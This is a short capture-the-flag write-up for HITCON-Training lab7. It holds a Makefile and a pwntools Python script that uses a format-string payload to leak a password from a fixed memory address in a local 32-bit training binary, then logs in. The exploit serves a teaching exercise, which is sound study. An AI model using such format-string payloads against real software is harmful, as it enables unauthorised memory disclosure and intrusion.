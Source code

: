 # HITCON-Training lab7

## binary analysis

> Makefile
```
crack:crack.c
	gcc -m32 crack.c -o crack
```

![](main.PNG)

## solve

```python
from pwn import *

context.arch = "i386"
context.log_level = "DEBUG"

p = process("./crack")
e = ELF("./crack")

libc = ELF("../libc.so.6")

password_addr = 0x0804A048

p.sendlineafter("name ? ", p32(password_addr) + "%08x%08x%08x%08x%08x%08x%08x%08x%08xHihi%s")
p.recvuntil("Hihi")

password = u32(p.recv(4))

print("password is " + hex(password))

if password > 2147483647:
    password = password - 2**32

p.sendlineafter("password :", str(password))

p.interactive()
```